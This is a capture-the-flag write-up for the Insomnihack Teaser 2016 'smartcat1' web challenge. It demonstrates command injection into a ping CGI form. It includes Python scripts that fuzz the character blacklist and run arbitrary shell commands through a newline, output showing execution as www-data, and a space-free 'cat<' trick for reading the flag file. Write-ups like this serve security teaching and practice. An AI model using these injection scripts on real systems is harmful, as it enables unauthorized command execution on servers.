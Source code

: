 Insomnihack Teaser 2016 – smartcat1 – 50 pt Web Challenge
---------------------------------------------------------

Happy new year CTFers! 2016 brings a us a super fun Insomnihack teaser. The theme being Internet of Things^H^H^H^H^H $h!T.

This first challenge was really trivial but probably stumped some people judging by IRC. Funny thing is I had just recently solved a very similar challenge in another CTF so the first thing I tried worked.

So we read the clue and all we really have is a link, at the link (http://smartcat.insomnihack.ch/cgi-bin/index.cgi) we’re greeted with a “ping destination” input box.


Ok so immediately your “command injection” alarm bells ring all at once, and yeah you’re right. There’s a blacklist of acceptable characters though and the usual assortment of command injection characters like $, `, |, & and so on are rejected.

At this point I want to map out the blacklist definitively so I create some Python code to enumerate the script’s responses to inputs. The below script just sends each possible character, then the “id” command and then parses for possible error messages:
```
#!/usr/bin/python

import requests

URL = 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi'

s = requests.Session()

for i in range(0,256):
	payload = { 'dest' : chr(i) + 'id' + chr(i)}
	bad = 0

	print "[*] Trying " + hex(i)
	print "[*] Trying " + payload['dest']
	r = s.post(URL, data=payload)

	for line in r.content.splitlines():
		if 'Error running ping' in line:
			bad+=1
			print line

		if 'Bad character' in line:
			bad += 1
			print line

	if bad == 0:
		print r.content
```
Which, rather quickly returns me a successful payload execution when i = 0x0a:
```
[*] Trying 0x9
[*] Trying 	id	
  <pre>Bad character 	 in dest</pre>
[*] Trying 0xa
[*] Trying 
id


<html>

<head><title>Can I haz Smart Cat ???</title></head>

<body>

  <h3> Smart Cat debugging interface </h3>



  <form method="post" action="index.cgi">
    <p>Ping destination: <input type="text" name="dest"/></p>
  </form>

  <p>Ping results:</p><br/>
  <pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```
Ok so we can get command execution, but letting the script play out, we have found a pretty depressing set of restricted input characters consisting of:

    <space>, $, ;, &, |, (, {, ` and <tab>

Fortunately we have shell redirection characters “<” and “>” and that’s all we need. We first have to track down the flag, I issue an “ls” command to see the files in the current directory, using this script:

 
```
#!/usr/bin/python

import requests
import sys

URL = 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi'

s = requests.Session()

payload = { 'dest' : chr(10) + sys.argv[1] }

r = s.post(URL, data=payload)

preparsing = False
for line in r.content.splitlines():
	if '</pre>' in line:
		preparsing = False

	if preparsing:
		print line

	if '<pre>' in line:
		print line.replace("<pre>","")
		preparsing = True
```
Where I find a interesting file or folder called “there”:
```
root@ubuntu:~/insomnihack/smartcat# ./sc_cmd.py ls
  index.cgi
there
```
I issue the “find” command to investigate further which leads me to the flag, as seen here:

```
root@ubuntu:~/insomnihack/smartcat# ./sc_cmd.py find
  .
./index.cgi
./there
./there/is
./there/is/your
./there/is/your/flag
./there/is/your/flag/or
./there/is/your/flag/or/maybe
./there/is/your/flag/or/maybe/not
./there/is/your/flag/or/maybe/not/what
./there/is/your/flag/or/maybe/not/what/do
./there/is/your/flag/or/maybe/not/what/do/you
./there/is/your/flag/or/maybe/not/what/do/you/think
./there/is/your/flag/or/maybe/not/what/do/you/think/really
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
root@ubuntu:~/insomnihack/smartcat# ./sc_cmd.py cat\<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

  INS{warm_kitty_smelly_kitty_flush_flush_flush}
```
